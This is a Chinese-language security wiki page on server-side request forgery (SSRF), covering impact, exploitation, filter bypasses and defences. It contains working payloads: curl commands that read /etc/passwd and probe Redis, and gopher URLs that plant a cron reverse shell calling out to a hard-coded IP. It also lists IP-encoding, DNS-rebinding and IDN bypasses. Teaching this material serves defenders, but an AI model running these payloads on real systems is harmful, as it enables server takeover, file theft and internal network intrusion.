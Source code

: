 SSRF
========================================

简介
----------------------------------------
服务端请求伪造（Server Side Request Forgery, SSRF）指的是攻击者在未能取得服务器所有权限时，利用服务器漏洞以服务器的身份发送一条构造好的请求给服务器所在内网。SSRF攻击通常针对外部网络无法直接访问的内部系统。

漏洞危害
----------------------------------------
SSRF可以对外网、服务器所在内网、本地进行端口扫描，攻击运行在内网或本地的应用，或者利用File协议读取本地文件。

内网服务防御相对外网服务来说一般会较弱，甚至部分内网服务为了运维方便并没有对内网的访问设置权限验证，所以存在SSRF时，通常会造成较大的危害。

利用方式
----------------------------------------
SSRF利用存在多种形式以及不同的场景，针对不同场景可以使用不同的绕过方式。

以curl为例, 可以使用dict protocol操作Redis、file协议读文件、gopher协议反弹Shell等功能，常见的Payload如下：

:: 

    curl -vvv 'dict://127.0.0.1:6379/info'

    curl -vvv 'file:///etc/passwd' 

    # * 注意: 链接使用单引号，避免$变量问题

    curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/103.21.140.84/6789 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a' 

相关危险函数
----------------------------------------
SSRF涉及到的危险函数主要是网络访问，支持伪协议的网络读取。以PHP为例，涉及到的函数有 ``file_get_contents()`` / ``fsockopen()`` / ``curl_exec()`` 等。

过滤绕过
----------------------------------------

更改IP地址写法
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一些开发者会通过对传过来的URL参数进行正则匹配的方式来过滤掉内网IP，如采用如下正则表达式：

- ``^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$``
- ``^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$``
- ``^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$``

对于这种过滤我们采用改编IP的写法的方式进行绕过，例如192.168.0.1这个IP地址可以被改写成：

- 8进制格式：0300.0250.0.1
- 16进制格式：0xC0.0xA8.0.1
- 10进制整数格式：3232235521
- 16进制整数格式：0xC0A80001
- 合并后两位：1.1.278 / 1.1.755
- 合并后三位：1.278 / 1.755 / 3.14159267

另外IP中的每一位，各个进制可以混用。

访问改写后的IP地址时，Apache会报400 Bad Request，但Nginx、MySQL等其他服务仍能正常工作。

另外，0.0.0.0这个IP可以直接访问到本地，也通常被正则过滤遗漏。

使用解析到内网的域名
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果服务端没有先解析IP再过滤内网地址，我们就可以使用localhost等解析到内网的域名。

另外 ``xip.io`` 提供了一个方便的服务，这个网站的子域名会解析到对应的IP，例如192.168.0.1.xip.io，解析到192.168.0.1。

利用解析URL所出现的问题
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在某些情况下，后端程序可能会对访问的URL进行解析，对解析出来的host地址进行过滤。这时候可能会出现对URL参数解析不当，导致可以绕过过滤。

比如 ``http://www.baidu.com@192.168.0.1/`` 当后端程序通过不正确的正则表达式（比如将http之后到com为止的字符内容，也就是www.baidu.com，认为是访问请求的host地址时）对上述URL的内容进行解析的时候，很有可能会认为访问URL的host为www.baidu.com，而实际上这个URL所请求的内容都是192.168.0.1上的内容。

利用跳转
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果后端服务器在接收到参数后，正确的解析了URL的host，并且进行了过滤，我们这个时候可以使用跳转的方式来进行绕过。

可以使用如 http://httpbin.org/redirect-to?url=http://192.168.0.1 等服务跳转，但是由于URL中包含了192.168.0.1这种内网IP地址，可能会被正则表达式过滤掉，可以通过短地址的方式来绕过。

常用的跳转有302跳转和307跳转，区别在于307跳转会转发POST请求中的数据等，但是302跳转不会。

通过各种非HTTP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果服务器端程序对访问URL所采用的协议进行验证的话，可以通过非HTTP协议来进行利用。

比如通过gopher，可以在一个url参数中构造POST或者GET请求，从而达到攻击内网应用的目的。例如可以使用gopher协议对与内网的Redis服务进行攻击，可以使用如下的URL：

::

    gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1* * * * bash -i >& /dev/tcp/172.19.23.228/23330>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a

除了gopher协议，File协议也是SSRF中常用的协议，该协议主要用于访问本地计算机中的文件，我们可以通过类似 ``file:///path/to/file`` 这种格式来访问计算机本地文件。使用file协议可以避免服务端程序对于所访问的IP进行的过滤。例如我们可以通过 ``file:///d:/1.txt`` 来访问D盘中1.txt的内容。

DNS Rebinding
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一个常用的防护思路是：对于用户请求的URL参数，首先服务器端会对其进行DNS解析，然后对于DNS服务器返回的IP地址进行判断，如果在黑名单中，就禁止该次请求。

但是在整个过程中，第一次去请求DNS服务进行域名解析到第二次服务端去请求URL之间存在一个时间差，利用这个时间差，可以进行DNS重绑定攻击。

要完成DNS重绑定攻击，我们需要一个域名，并且将这个域名的解析指定到我们自己的DNS Server，在我们的可控的DNS Server上编写解析服务，设置TTL时间为0。这样就可以进行攻击了，完整的攻击流程为：

- 服务器端获得URL参数，进行第一次DNS解析，获得了一个非内网的IP
- 对于获得的IP进行判断，发现为非黑名单IP，则通过验证
- 服务器端对于URL进行访问，由于DNS服务器设置的TTL为0，所以再次进行DNS解析，这一次DNS服务器返回的是内网地址。
- 由于已经绕过验证，所以服务器端返回访问内网资源的结果。

利用IPv6
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
有些服务没有考虑IPv6的情况，但是内网又支持IPv6，则可以使用IPv6的本地IP如 ``[::]`` ``0000::1`` 或IPv6的内网域名来绕过过滤。


利用IDN
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一些网络访问工具如Curl等是支持国际化域名（Internationalized Domain Name，IDN）的，国际化域名又称特殊字符域名，是指部分或完全使用特殊的文字或字母组成的互联网域名。

在这些字符中，部分字符会在访问时做一个等价转换，例如 ``ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ`` 和 ``example.com`` 等同。利用这种方式，可以用 ``① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩`` 等字符绕过内网限制。

可能的利用点
----------------------------------------
- Apache Hadoop远程命令执行
- axis2-admin部署Server命令执行
- Confluence SSRF
- counchdb WEB API远程命令执行
- dict
- docker API远程命令执行
- Elasticsearch引擎Groovy脚本命令执行
- ftp / ftps（FTP爆破）
- glassfish任意文件读取和war文件部署间接命令执行
- gopher
- HFS远程命令执行
- http、https
- imap/imaps/pop3/pop3s/smtp/smtps（爆破邮件用户名密码） 
- Java调试接口命令执行
- JBOSS远程Invoker war命令执行
- Jenkins Scripts接口命令执行
- ldap
- mongodb
- php_fpm/fastcgi 命令执行
- rtsp - smb/smbs（连接SMB）
- sftp
- ShellShock命令执行
- Struts2 命令执行
- telnet
- tftp（UDP协议扩展）
- tomcat命令执行
- WebDav PUT上传任意文件
- WebSphere Admin可部署war间接命令执行
- zentoPMS远程命令执行

防御方式
----------------------------------------
- 过滤返回的信息
- 统一错误信息
- 限制请求的端口
- 禁止不常用的协议
- 对DNS Rebinding，考虑使用DNS缓存或者Host白名单

参考链接
----------------------------------------
- `SSRF漏洞分析与利用 <http://www.91ri.org/17111.html>`_
- `A New Era Of SSRF <https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf>`_
- `php ssrf technique <https://medium.com/secjuice/php-ssrf-techniques-9d422cb28d51>`_
- `谈一谈如何在Python开发中拒绝SSRF漏洞 <https://www.leavesongs.com/PYTHON/defend-ssrf-vulnerable-in-python.html>`_
- `SSRF Tips <http://blog.safebuff.com/2016/07/03/SSRF-Tips/>`_
- `SSRF in PHP <https://joychou.org/web/phpssrf.html>`_
